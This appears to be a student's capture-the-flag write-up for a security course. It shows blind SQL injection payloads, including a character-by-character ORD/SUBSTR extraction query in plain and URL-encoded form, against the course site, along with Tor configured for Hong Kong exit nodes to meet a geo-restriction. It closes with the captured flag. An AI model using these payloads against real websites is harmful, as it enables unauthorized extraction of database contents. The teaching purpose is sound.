 ```yaml
---
layout: post
title: 'Tormity Writeup'
category: memo
slug: tormity-writeup
---
```

Security Programming Homework 1-1

## Get Flags

According to the first hint: "Try to capture as more flags as you can.", I
think we should use to Tor to visit the website. But for tests and simlicity,
I decided to use Chrome extension which called "Hola". It is a cute tool that
help you surfing the Internet through VPNs.

Although "Hola" is convenient, we should use Tor for better anonimity, like
atdog said.

## SQL injection Tests

According to the second hint, I believe there are vulnerabilities about SQL
injection in the website. So I tried to append following query strings, assume
the base url is `http://tor.atdog.tw/news/1`

```sql
'
`
UNION SELECT 1
UNION SELECT 1,2
UNION SELECT 1,2,3
...
```

Failed. We only got "500 Internal Server Error" page all the time. Try another
method

```sql
AND 1=1
AND 1=2
```

Something happened! The first url returned the article but the second did not.
So I guess I can use this feature to identify something, e.g. flag.

The second hint told me that there is a flag in the "flags" table and its
column name is called "flag". Chances are there could be multiple rows in that
table. I want to know how many rows are there in the "flags" table

```sql
AND EXISTS(SELECT 1 FROM flags LIMIT 0, 1)
AND EXISTS(SELECT 1 FROM flags LIMIT 1, 1)
AND EXISTS(SELECT 1 FROM flags LIMIT 2, 1)
```

Using the "limit" SQL command to limit the lines of returned row(s). We knew
there are two rows in the "flags" table from the above tests. But which one is
the real flag? According to my tests, the actual flag is the second one.

The meaning of "blind SQL injection" is that we can only get true or false as
a result at one time. But how can we capture the flag? One of the approaches is
to narrow down the number of candidates of a single character by asking the
webpage "larger or smaller" question. After located the exact character, move
on to the next character. Repeat this action, the flag will show up

```sql
AND EXISTS(SELECT 1 FROM flags WHERE ORD(SUBSTR((SELECT flag FROM flags LIMIT 1,1), 1)) <= 79)
```

Finally, our sophisticated query string which will be appended to the base url is

```sql
%20and%20exists(select%201%20from%20flags%20where%20ord(substr((select%20flag%20from%20flags%20limit%201,1),%201))%20%3C=%2079)
```

## Using Tor

The hint told me that I should connect to the webpage with Hong Kong IP. To
satisfy this restriction and to use python script doing this boring job for me,
Tor must be setup.

First we need to install Tor via Homebrew `brew install tor`. After the
installation was done, you will see the caveats shown on the terminal

```bash
To have launchd start tor at login:
    ln -sfv /usr/local/opt/tor/\*.plist ~/Library/LaunchAgents
Then to load tor now:
    launchctl load ~/Library/LaunchAgents/homebrew.mxcl.tor.plist
```

The default Tor configuration file is at `/usr/local/etc/tor/torrc.sample`.
We just need to add two lines of configuration in `${HOME}/.torrc`

```text
StrictNodes 1
ExitNodes {hk}
```

Then all of our connections will exit from Hong Kong.

## Writing Python Script

### Environment

I use Python 2.7.8 to write the script, and import some modules for automatic
login and using SOCKS proxy

```bash
pyenv virtualenv 2.7.8 secprog-2.7.8
pyenv local secprog-2.7.8
pip install mechanize PySocks
```

### Key Points

-  Using python mechanize library to implement login action
-  Using python PySocks library to make all connections go through Tor network
  (SOCKS proxy)

## Flag

The flag is `SECPROC{Hey,D0n't_f0rg3t_g0_thr0ugh_an0nymity_n3tw0rk.}`

## References

-  [Tor Country Codes - B3RN3D][1]
-  [tutorial SQL injection - LampSecurity CTF 6][2]
-  [MySQL - String Functions][3]
-  [Python's mechanize to login like a user][4]
-  [stack overflow - using tor as a SOCKS5 proxy with python urllib2 or mechanize][5]
-  [stack overflow - python re.sub group: number after \number][6]

[1]: https://b3rn3d.herokuapp.com/blog/2014/03/05/tor-country-codes
[2]: http://www.infond.fr/2010/06/tutorial-sql-injection-lampsecurity-ctf.html
[3]: http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_substr
[4]: http://simplapi.wordpress.com/2012/04/20/pythons-mechanize-login-like-a-user/
[5]: http://stackoverflow.com/questions/14449974/using-tor-as-a-socks5-proxy-with-python-urllib2-or-mechanize
[6]: http://stackoverflow.com/questions/5984633/python-re-sub-group-number-after-number
